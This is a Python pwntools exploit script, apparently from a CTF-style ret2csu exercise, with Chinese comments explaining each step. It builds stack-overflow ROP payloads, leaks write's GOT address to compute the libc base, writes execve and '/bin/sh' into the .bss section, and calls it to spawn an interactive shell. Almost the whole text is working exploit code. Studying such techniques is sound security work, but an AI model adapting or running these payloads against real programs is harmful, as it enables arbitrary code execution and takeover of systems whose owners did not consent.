 ```python

def csu(rbx,rbp,r12,r13,r14,r15,ret):
    payload = b'A'*136 + p64(gadget1) #padding + fake_ebp + ret
    payload +=p64(0)  # 填充rsp，给寄存器赋值是从rsp+8开始
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    #rbx should be 0
    #rbp shuold be 1
    #r12 should be the founction we want to call
    #rdi=edi=r13d
    #rsi=r14
    #rdx=r15
    payload +=p64(gadget2) #ret
    payload +=0x38*b'A' #padding
    payload +=p64(ret) #ret

    return payload


io.recvuntil("Hello, World\n")
payload1 = csu(0,1,write_got_addr,1,write_got_addr,8,main_addr) #leak write_addr
# 这里参数三 目标调用函数 write_got_addr不能换为 write_plt_addr因为 他在调用时使用的是call 指令(相当于push&&jump)，与Ret2libc64例子不同，Ret2libc使用gadget，是使的EIP指向要运行的地址(即write_plt_addr)，所以填入 write_plt_addr会自动解析跳转；与call指令不同;下面的参数原因相同
io.sendline(payload1)
log.success("========== send payload1 ===========")

write_addr = u64(io.recv(8))    #泄露write函数Got表地址，从而得到基地址
log.success("write_addr:{}".format(hex(write_addr)))

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") 	# libc=LibcSearcher('write',write_addr)
libc_base = write_addr - libc.symbols["write"]  #libc.dumps("write")  这种写法需要加载LibcSearcher
execve_addr = libc_base + libc.symbols["execve"]
log.success("execve_addr:{}".format(hex(execve_addr)))

io.recvuntil("Hello, World\n")
payload2 = csu(0,1,read_got,0,bss_addr,0x100,main_addr)  # 在bss_base写入execve ，bss+8写入/bin/sh
io.sendline(payload2)
#io.sendline(flat([execve_addr,'/bin/sh\x00']))
io.sendline(p64(execve_addr)+ b'/bin/sh\x00')
log.success("============ send payload2 ==========")


io.recvuntil("Hello, World\n")
payload3 = csu(0,1,bss_addr,bss_addr+8,0,0,main_addr)  # getshell，使EIP 指向.bss段，将bss_base填入的execve当作函数，后面的8字节当作参数 执行
io.sendline(payload3)
log.success("========== send payload3 ==============")

io.interactive()
```

